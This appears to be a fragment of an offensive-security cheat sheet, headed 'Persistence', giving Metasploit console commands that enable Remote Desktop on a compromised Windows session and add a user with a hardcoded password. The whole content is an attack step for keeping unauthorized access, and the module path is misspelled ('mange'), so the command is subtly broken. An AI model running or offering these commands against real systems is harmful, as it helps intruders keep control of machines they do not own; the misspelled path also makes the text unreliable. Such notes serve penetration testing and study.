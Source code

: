 # Persistence

### Using Metasploit

```
use post/windows/mange/enable_rdp
set username rfs
set password Password123!
set session 1
exploit
```
